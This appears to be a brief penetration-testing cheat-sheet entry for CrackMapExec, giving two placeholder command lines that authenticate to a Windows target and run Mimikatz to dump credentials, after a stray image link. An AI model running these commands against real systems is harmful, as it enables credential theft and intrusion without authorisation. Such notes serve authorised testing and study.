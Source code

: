 # crackmapexec

"crackmapexec <IP> -u <username> -p <password> -d <domanname> --mimikatz"

(or)

"crackmapexec <IP> -u <username> -p <password> -d <domanname> -M Mimikatz"

